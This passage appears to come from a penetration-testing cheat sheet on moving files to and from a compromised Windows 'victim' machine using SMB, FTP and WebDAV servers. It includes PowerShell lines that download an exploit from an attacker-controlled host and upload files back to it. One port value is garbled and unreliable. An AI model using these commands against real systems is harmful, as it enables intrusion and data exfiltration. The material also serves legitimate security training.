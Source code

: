 Then copy it:
```console
PS C:\victim> copy \\<your ip>\share\<exploit>

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

If this happen we need to create it with credentials.
```console
zero@pio$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password pass
```

And then mount it:
```console
PS C:\victim> net use n: \\<your ip>\share /user:test pass
```

## FTP downloads 

With Python3 we can start a FTP server:
```console
zero@pio$ sudo pip3 install pyftpdlib
zero@pio$ sudo python3 -m pyftpdlib --port 2x1table
```

In the victim:
```console
PS C:\victim> (New-Object Net.WebClient).DownloadFile('ftp://<your ip>/<exploit>', '<ouput file>')
```

If we want to upload:
```console
PS C:\victim> (New-Object Net.WebClient).UploadFile('ftp://<your ip>/<file name>', '<path to file>')
```

## WebDav Server 

To start one:
```console
zero@pio$ sudo pip install wsgidav cheroot
zero@pio$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

Then we can connect:
```console
C:\victim> dir \\<your ip>\DavWWWRoot
```

For uploading files:
```console
C:\victim> copy <path to file> \\<your ip>\DavWWWRoot\
C:\victim> copy <path to file> \\<your ip>\sharefolder\
```
